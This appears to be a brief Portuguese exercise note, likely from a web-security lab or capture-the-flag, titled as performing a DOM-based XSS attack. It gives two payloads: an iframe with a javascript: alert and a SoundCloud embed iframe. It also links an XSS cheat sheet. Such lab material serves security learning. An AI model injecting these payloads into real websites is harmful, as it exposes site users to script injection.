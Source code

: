 ## Realize um ataque XSS do tipo DOM

```
<iframe src="javascript:alert(`xss`)">
```
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe> 
```
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
